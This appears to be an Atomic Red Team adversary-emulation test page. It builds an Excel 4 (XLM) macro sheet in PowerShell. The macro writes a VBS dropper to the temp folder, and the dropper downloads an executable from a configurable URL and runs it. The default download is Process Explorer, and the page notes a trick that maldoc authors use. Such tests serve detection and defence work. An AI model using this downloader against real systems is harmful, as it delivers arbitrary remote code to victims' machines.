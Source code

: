 
Atomic Test #6 - Excel 4 Macro
This module creates an Excel 4 Macro (XLM) enabled spreadsheet and executes it. The XLM will first write a "malicious" VBS file to %TEMP%, then execute this file. The VBS will download Process Explorer to the same directory (%TEMP%) and exec.

A note regarding this module. By default, this module will pull the current username from the system and places it into the macro. If you'd like to utilize the "=GET.WORKSPACE(26)" method, that many maldoc authors use, you will need to ensure that the User Name associated with Excel matches that of the local system. This username can be found under Files -> Options -> Username

Supported Platforms: Windows

auto_generated_guid: 4ea1fc97-8a46-4b4e-ba48-af43d2a98052

Inputs:
Name	Description	Type	Default Value
download_url	Download URL	string	https://live.sysinternals.com/procexp.exe
uname	Username for pathing	string	$env:Username
Attack Commands: Run with powershell!
$fname = "$env:TEMP\atomic_redteam_x4m_exec.vbs"
$fname1 = "$env:TEMP\procexp.exe"
if (Test-Path $fname) {
  Remove-Item $fname
  Remove-Item $fname1
}

$xlApp = New-Object -COMObject "Excel.Application"
$xlApp.Visible = $True
$xlApp.DisplayAlerts = $False
$xlBook = $xlApp.Workbooks.Add()
$sheet = $xlBook.Excel4MacroSheets.Add()

if ("#{uname}" -ne "") {
  $sheet.Cells.Item(1,1) = "#{uname}"
} else {
  $sheet.Cells.Item(1,1) = "=GET.WORKSPACE(26)"
}

$sheet.Cells.Item(2,1) = "procexp.exe"
$sheet.Cells.Item(3,1) = "atomic_redteam_x4m_exec.vbs"
$sheet.Cells.Item(4,1) = "=IF(ISNUMBER(SEARCH(`"64`",GET.WORKSPACE(1))), GOTO(A5),)"
$sheet.Cells.Item(5,1) = "=FOPEN(`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`", 3)"
$sheet.Cells.Item(6,1) = "=FWRITELN(A5, `"url = `"`"#{download_url}`"`"`")"
$sheet.Cells.Item(7,1) = "=FWRITELN(A5, `"`")"
$sheet.Cells.Item(8,1) = "=FWRITELN(A5, `"Set winHttp = CreateObject(`"`"WinHTTP.WinHTTPrequest.5.1`"`")`")"
$sheet.Cells.Item(9,1) = "=FWRITELN(A5, `"winHttp.Open `"`"GET`"`", url, False`")"
$sheet.Cells.Item(10,1) = "=FWRITELN(A5, `"winHttp.Send`")"
$sheet.Cells.Item(11,1) = "=FWRITELN(A5, `"If winHttp.Status = 200 Then`")"
$sheet.Cells.Item(12,1) = "=FWRITELN(A5, `"Set oStream = CreateObject(`"`"ADODB.Stream`"`")`")"
$sheet.Cells.Item(13,1) = "=FWRITELN(A5, `"oStream.Open`")"
$sheet.Cells.Item(14,1) = "=FWRITELN(A5, `"oStream.Type = 1`")"
$sheet.Cells.Item(15,1) = "=FWRITELN(A5, `"oStream.Write winHttp.responseBody`")"
$sheet.Cells.Item(16,1) = "=FWRITELN(A5, `"oStream.SaveToFile `"`"C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`"`", 2`")"
$sheet.Cells.Item(17,1) = "=FWRITELN(A5, `"oStream.Close`")"
$sheet.Cells.Item(18,1) = "=FWRITELN(A5, `"End If`")"
$sheet.Cells.Item(19,1) = "=FCLOSE(A5)"
$sheet.Cells.Item(20,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A3&`"`")"
$sheet.Cells.Item(21,1) = "=WAIT(NOW()+`"00:00:05`")"
$sheet.Cells.Item(22,1) = "=EXEC(`"explorer.exe C:\Users\`"&A1&`"\AppData\Local\Temp\`"&A2&`"`")"
$sheet.Cells.Item(23,1) = "=HALT()"
$sheet.Cells.Item(1,1).Name = "runme"
$xlApp.Run("runme")
$xlApp.Quit()
